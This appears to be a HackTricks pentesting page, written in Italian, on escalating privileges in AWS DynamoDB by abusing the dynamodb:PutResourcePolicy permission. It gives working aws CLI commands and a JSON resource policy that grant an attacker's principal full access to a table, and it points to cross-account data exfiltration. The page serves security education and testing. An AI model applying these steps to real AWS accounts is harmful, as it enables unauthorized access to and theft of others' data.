 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Per ulteriori informazioni su dynamodb, controlla:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, e opzionalmente `dynamodb:GetResourcePolicy`

Dal marzo 2024, AWS offre *politiche basate sulle risorse* per DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Quindi, se hai il `dynamodb:PutResourcePolicy` per una tabella, puoi semplicemente concedere a te stesso o a qualsiasi altro principale accesso completo alla tabella.

Concedere il `dynamodb:PutResourcePolicy` a un principale casuale spesso avviene per caso, se gli amministratori pensano che concedere `dynamodb:Put*` consentirebbe solo al principale di inserire elementi nel database - o se hanno concesso quel set di permessi prima di marzo 2024...

Idealmente, hai anche `dynamodb:GetResourcePolicy`, così non sovrascrivi altre autorizzazioni potenzialmente vitali, ma inietti solo le autorizzazioni aggiuntive di cui hai bisogno:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Se non riesci a recuperare la policy attuale, usa semplicemente questa che concede accesso completo sulla tabella al tuo principale:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Se hai bisogno di personalizzarlo, ecco un elenco di tutte le possibili azioni DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Ecco un elenco di tutte le azioni che possono essere consentite tramite una policy basata su risorse *E quali di queste possono essere utilizzate cross-account (pensa all'exfiltrazione dei dati!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Ora, con il documento della policy `policy.json` pronto, inserisci la policy delle risorse:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Ora dovresti avere i permessi di cui avevi bisogno.

### Post Exploitation

Per quanto ne so, **non c'è altro modo diretto per escalare i privilegi in AWS semplicemente avendo alcuni permessi `dynamodb` di AWS**. Puoi **leggere informazioni sensibili** dalle tabelle (che potrebbero contenere credenziali AWS) e **scrivere informazioni nelle tabelle** (che potrebbero attivare altre vulnerabilità, come le iniezioni di codice lambda...) ma tutte queste opzioni sono già considerate nella **pagina di Post Exploitation di DynamoDB**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Leggere dati abusando dei data Streams

{{#include ../../../banners/hacktricks-training.md}}
